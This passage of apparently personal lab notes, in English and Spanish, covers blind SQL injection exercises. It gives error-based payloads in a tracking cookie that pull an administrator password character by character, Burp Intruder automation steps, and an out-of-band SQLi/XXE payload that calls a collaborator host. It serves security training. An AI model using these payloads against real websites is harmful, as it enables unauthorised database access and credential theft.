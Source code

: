 ```js
12. TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
And so on. You can do this manually using burpRepeater, since the length is likely to be short. When the condition stops being true (i.e. when the error disappears), you have determined the length of the password, which is in fact 20 characters long.
1. Con intruder un payload de a-z-0-9: 
2. TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
3. TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
4. TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,3,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
5. ... seguimos cambiando el (password,4,1) hasta completar la length de la password.
Lo podriamos automatizar con un Clusterbomb y 1st payload: 0-9 2nd payload:a-z-0-9 y filtramos por response received los primeros 20 posiciones de menor a mayor filtrando por CODIGO 500 STATUS  ------>
1. TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,§4§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

![](Pasted%20image%2020250222205416.png)
### LAB: Blind SQL injection with out-of-band interaction `XXE` `trackingId`

> Placing a single quote at end of the `trackingid` cookie or search parameter `/search_advanced?searchTerm='` may give response `500 Internal Server Error`. Make an educated guess, by using below blind SQLi payload and combine with basic XXE technique, this then makes a call to collaboration server but **no data is ex-filtrated**.

```sql
TrackingId=xxx'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//OASTIFY.COM/">+%25remote%3b]>'),'/l')+FROM+dual--
```
